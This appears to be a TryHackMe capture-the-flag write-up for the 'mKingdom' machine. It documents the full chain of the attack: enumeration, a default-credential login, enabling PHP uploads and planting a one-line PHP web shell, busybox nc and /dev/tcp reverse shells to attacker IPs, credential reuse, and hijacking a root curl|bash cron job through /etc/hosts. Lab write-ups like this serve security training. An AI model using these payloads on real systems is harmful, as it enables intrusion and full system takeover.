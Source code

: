 # mKingdom - TryHackMe Writeup

**TL;DR:** Weak Credentials → File Upload Bypass → Credential Reuse → Lateral Movement → Cron Job → DNS Poisoning → Root

## Target
- Machine: `mkingdom.thm`
- Date: 2025-4-23
- Environment: TryHackMe / CTF

## Steps:

### 1. Initial scan:

```bash
#
nmap -sV -sC -T4 -Pn 10.10.186.42

85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0H N0! PWN3D 4G4IN
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

### 2. Directory Discovery:
```bash
gobuster dir -u http://mkingdom.thm:85/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php

/app                  (Status: 301) [Size: 312]


gobuster dir -u http://mkingdom.thm:85/app/castle/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php

/application
/concrete
/index.php
/packages
/robots.txt
/updates
```

### 3. Web Application Discovery

The web application presented a login page at `http://mkingdom.thm:85/app/castle/`. Initial attempts at SQL injection and brute-force attacks resulted in an IP ban, indicating the presence of security measures.

#### Credential Discovery
After testing common credentials, access was successfully gained using:
- **Username**: `admin`
- **Password**: `password`

![Login](images/sigin.png)


#### File Upload Bypass

The application allowed file uploads but restricted PHP files by default. To bypass this:

1. Navigated to the file types configuration:
   `http://mkingdom.thm:85/app/castle/index.php/dashboard/system/files/filetypes`

2. Added `.php` extension to the allowed file types:

![add-php](images/phpadd.png)


#### Web Shell Deployment

Created a simple PHP web shell:
```php
<?php system($_GET['cmd']); ?>
```

Uploaded the shell file through the application's file upload functionality:

![upload-shell](images/upload.png)

![upload-shell](images/upload2.png)

The web shell became accessible at:
`http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php`

Verified functionality by executing the id command:
`http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php?cmd=id`

![web-shell](images/webshell.png)

#### Revese Shell Establishment

To gain a proper shell access:

   1. Set up netcat listener on attacking machine:
```bash
nc -lnvp 4444
```
   2. Trigger reverse shell via web shell:

```bash
curl 'http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php?cmd=busybox%20nc%2010.9.1.13%204444%20-e%20bash'
```
   3. Upgrade shell for better interaction: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

### 4. Lateral Movement & Credential Discovery

While exploring the web application structure, database credentials were discovered in the configuration file:

**Location**: `/var/www/html/app/castle/application/config/database.php`

![mysql-cred](images/sqlcred2.png)

#### Password Reuse

The discovered database password was reused successfully to switch to the `toad` user:

```bash
www-data@mkingdom:/$ su toad
Password: 
toad@mkingdom:/$ id
uid=1002(toad) gid=1002(toad) groups=1002(toad)
```


Examination of user configuration files revealed credentials in an unexpected location:

```bash
toad@mkingdom:~$ cat .bashrc 


export PWD_token='[REDACTED]=='

#decode it
echo '[REDACTED]==' | base64 -d
[REDACTED]
```

The decoded credentials provided access to the `mario`user:
```bash
su mario
Password:

mario@mkingdom:/home/toad$ id
uid=1001(mario) gid=1001(mario) groups=1001(mario)
```
#### User flag

```bash
mario@mkingdom:~$ cat user.txt 
cat: user.txt: Permission denied
# The cat binary runs as toad user, preventing access.

mario@mkingdom:~$ more user.txt 
thm{[REDACTED]}
```


### 5. Privilege Escalation to Root


#### Enumeration with LinPEAS

Uploaded and executed LinPEAS for automated privilege escalation enumeration, which revealed a critical finding:

```bash
╔══════════╣ Searching root files in home dirs (limit 30)
/var/www/html/app/castle/application/counter.sh
```

Discovered a root-owned script that appeared to be part of a scheduled task:
```bash
ls -la /var/www/html/app/castle/application/counter.sh
#-rw-r--r-- 1 root root 129 Nov 29  2023 /var/www/html/app/castle/application/counter.sh

cat /var/www/html/app/castle/application/counter.sh
##!/bin/bash
#echo "There are $(ls -laR /var/www/html/app/castle/ | wc -l) folder and files in TheCastleApp in - - - - > $(date)."
```

#### Process Monitoring with pspy

Using pspy64 to monitor background processes revealed a critical cron job execution:
```bash
./pspy64


2025/10/31 03:50:01 CMD: UID=0     PID=4366   | curl mkingdom.thm:85/app/castle/application/counter.sh
2025/10/31 03:50:01 CMD: UID=0     PID=4365   | CRON 
2025/10/31 03:50:01 CMD: UID=0     PID=4364   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log
```
A root-level cron job was fetching and executing counter.sh from the web server via curl.

#### DNS Poisoning Attack

1. Created malicious counter.sh on attacking machine:
```bash
mkdir -p app/castle/application/

echo "bash -c 'bash -i >& /dev/tcp/YOUR_IP/4445 0>&1'" > app/castle/application/counter.sh
```

2. Hosted malicious script via Python HTTP server:
```bash
python3 -m http.server 85
```

3. Poisoned DNS resolution by modifying `/etc/hosts`:
```bash
mario@mkingdom:/tmp$ cat /etc/hosts
127.0.0.1       localhost
YOUR_IP       mkingdom.thm  # <- Added malicious entry
```

4. Prepared netcat listener:
```bash
nc -lnvp 4445
```

#### Root Shell Acquisition

The cron job executed the malicious script, providing a reverse shell as root:
```bash
root@mkingdom:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@mkingdom:~# 
```

#### Root Flag

Successfully retrieved the root flag:
```bash

more root.txt
thm{[REDACTED]}
```
